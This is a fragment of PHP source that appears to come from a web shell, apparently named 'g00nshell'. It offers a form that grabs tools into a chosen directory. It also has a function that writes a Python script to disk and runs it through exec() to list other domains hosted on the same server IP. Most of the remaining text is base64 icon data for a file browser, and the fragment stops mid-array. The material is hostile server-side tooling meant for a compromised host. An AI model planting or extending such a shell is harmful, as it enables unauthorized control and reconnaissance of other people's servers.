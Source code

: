   $names = array_flip($tools);
  echo("&lt;b&gt;Tools:&lt;/b&gt;");
  echo("&lt;form method='post'&gt;");
  echo("&lt;b&gt;Output Directory&lt;/b&gt;&lt;br&gt;");
  echo("&lt;input type='text' name='loc' size='65' value='" . $curdir . "'&gt;&lt;br&gt;&lt;br&gt;");
  echo("&lt;select name='gf' style='align:center;'&gt;");
  foreach($tools as $tool) {echo("&lt;option value='" . $tool . "'&gt;" . $names[$tool] . "&lt;/option&gt;\n");}
  echo("&lt;/select&gt;");
  echo("&lt;br&gt;&lt;input type='submit' value='Grab'&gt;");
  echo("&lt;/form&gt;");
}
function lookup(){ // Domain lookup function
  style();
  global $servinf;
  $script = "import urllib, urllib2, sys, re
  req = urllib2.Request('http://www.seologs.com/ip-domains.html', urllib.urlencode({'domainname' : sys.argv[1]}))
  site = re.findall('.+\) (.+)&lt;br&gt;', urllib2.urlopen(req).read())
  for i in xrange(0,len(site)):
    print site[i]"; // My sexy python script
  $handle = fopen('lookup.py', 'w');
  fwrite($handle, $script);
  fclose($handle);
  echo("&lt;h4&gt;Domains&lt;/h4&gt;");
  echo("&lt;ul&gt;");
  $cmd = exec("python lookup.py " . $servinf[0], $ret);
  foreach($ret as $site){echo("&lt;li&gt;" . $site . "\n");}
  unlink('lookup.py');
}
function img($img){ // Images function
  $images = array(
  "folder"=&gt;"R0lGODlhEwAQALMAAAAAAP///5ycAM7OY///nP//zv/OnPf39////wAAAAAAAAAAAAAAAAAAAAAAAAAAACH5BAEAAA" .
  "gALAAAAAATABAAAARREMlJq7046yp6BxsiHEVBEAKYCUPrDp7HlXRdEoMqCebp/4YchffzGQhH4YRYPB2DOlHPiKwq" .
  "d1Pq8yrVVg3QYeH5RYK5rJfaFUUA3vB4fBIBADs=",
  "image"=&gt;"R0lGODlhFAAWAOMAAP////8zM8z//8zMzJmZmWZmZmYAADMzMwCZzACZMwAzZgAAAAAAAAAAAAAAAAAAACH+TlRoaX" .
  "MgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1i" .
  "ZXIgMTk5NQAh+QQBAAACACwAAAAAFAAWAAAEkPDISae4WBzAu99Hdm1eSYYZWXYqOgJBLAcDoNrYNssGsBy/4GsX6y" .
  "2OyMWQ2OMQngSlBjZLWBM1AFSqkyU4A2tWywUMYt/wlTSIvgYGA/Zq3QwU7mmHvh4g8GUsfAUHCH95NwMHV4SGh4Ed" .
  "ihOOjy8rZpSVeiV+mYCWHncKo6Sfm5cliAdQrK1PQBlJsrNSEQA7",
  "unknown"=&gt;"R0lGODlhFAAWAMIAAP///8z//5mZmTMzMwAAAAAAAAAAAAAAACH+TlRoaXMgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG" .
  "9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1iZXIgMTk5NQAh+QQBAAABACwAAAAAFAAW" .
  "AAADaDi6vPEwDECrnSO+aTvPEQcIAmGaIrhR5XmKgMq1LkoMN7ECrjDWp52r0iPpJJ0KjUAq7SxLE+sI+9V8vycFiM" .
  "0iLb2O80s8JcfVJJTaGYrZYPNby5Ov6WolPD+XDJqAgSQ4EUCGQQEJADs=",
  "binary"=&gt;"R0lGODlhFAAWAMIAAP///8z//8zMzJmZmTMzMwAAAAAAAAAAACH+TlRoaXMgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG" .
  "9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1iZXIgMTk5NQAh+QQBAAABACwAAAAAFAAW" .
  "AAADaUi6vPEwEECrnSS+WQoQXSEAE6lxXgeopQmha+q1rhTfakHo/HaDnVFo6LMYKYPkoOADim4VJdOWkx2XvirUgq" .
  "VaVcbuxCn0hKe04znrIV/ROOvaG3+z63OYO6/uiwlKgYJJOxFDh4hTCQA7",
  "text"=&gt;"R0lGODlhFAAWAOMAAP/////MM/8zM8z//5mZmZlmM2bM/zMzMwAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACH+TlRoaX" .
  "MgYXJ0IGlzIGluIHRoZSBwdWJsaWMgZG9tYWluLiBLZXZpbiBIdWdoZXMsIGtldmluaEBlaXQuY29tLCBTZXB0ZW1i" .
  "ZXIgMTk5NQAh+QQBAAADACwAAAAAFAAWAAAEb/DISee4eBzAu99Hdm1eSYbZWXEkgI5sEBg0+2HnTBsccvhAmGtXAy" .
  "COSITwUGg2PYQoQalhOZ/QKLVV6gKmQm8XXDUmzx0yV5ze9s7JdpgtL3ME5jhHTS/xO3hwdWt0f317WwdSi4xRPxlw" .
  "kUgXEQA7",
  "compressed"=&gt;"R0lGODlhFAAWAOcAAP//////zP//mf//Zv//M///AP/M///MzP/Mmf/MZv/MM//MAP+Z//+ZzP+Zmf+ZZv+ZM/+ZAP" .
  "9m//9mzP9mmf9mZv9mM/9mAP8z//8zzP8zmf8zZv8zM/8zAP8A//8AzP8Amf8AZv8AM/8AAMz//8z/zMz/mcz/Zsz/" .
  "M8z/AMzM/8zMzMzMmczMZszMM8zMAMyZ/8yZzMyZmcyZZsyZM8yZAMxm/8xmzMxmmcxmZsxmM8xmAMwz/8wzzMwzmc" .
  "wzZswzM8wzAMwA/8wAzMwAmcwAZswAM8wAAJn//5n/zJn/mZn/Zpn/M5n/AJnM/5nMzJnMmZnMZpnMM5nMAJmZ/5mZ" .
  "zJmZmZmZZpmZM5mZAJlm/5lmzJlmmZlmZplmM5lmAJkz/5kzzJkzmZkzZpkzM5kzAJkA/5kAzJkAmZkAZpkAM5kAAG" .

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/g00nshell.png
